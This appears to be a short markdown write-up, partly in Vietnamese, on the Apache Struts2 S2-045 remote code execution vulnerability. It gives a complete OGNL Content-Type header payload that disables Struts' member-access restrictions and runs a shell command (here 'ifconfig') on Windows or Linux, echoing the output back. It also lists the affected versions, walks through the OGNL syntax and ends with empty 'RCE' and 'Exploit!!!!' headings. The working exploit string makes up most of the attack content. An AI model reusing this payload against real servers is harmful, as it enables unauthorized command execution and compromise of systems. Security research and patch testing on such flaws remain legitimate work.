


## POC
```content-type
%{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

```Affected Version
Struts 2.3.5 – Struts 2.3.31
Struts 2.5 – Struts 2.5.10
```

## Explain:
put `n` is content-type `form-data` 

Dấu ":" được sử dụng để gán giá trị cho một biến hoặc thuộc tính

Dấu "." được sử dụng để truy cập đến thành viên của một đối tượng

```
OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess 
```

Dấu "." giữa hai đoạn mã OgnlContext@DEFAULT_MEMBER_ACCESS và (#_memberAccess trong câu truy vấn OGNL đó để kết hợp hai phần lại với nhau

Trong câu truy vấn OGNL 

```
(#_memberAccess?(#_memberAccess=#dm)
```

dấu "?" được sử dụng để thực hiện một điều kiện trong OGNL.

#_memberAccess?: Đây là một điều kiện trong OGNL. Nếu giá trị của #_memberAccess là đúng (khác null, không rỗng hoặc không phải giá trị false),

thì điều kiện này trả về true.

(#_memberAccess=#dm): Đây là một phép gán trong OGNL. Nếu điều kiện trước đó là đúng, tức là #_memberAccess là đúng, 

thì giá trị của #dm sẽ được gán cho #_memberAccess.

## Reference

https://nsfocusglobal.com/apache-struts2-remote-code-execution-vulnerability-s2-045/

## RCE



## Exploit!!!!

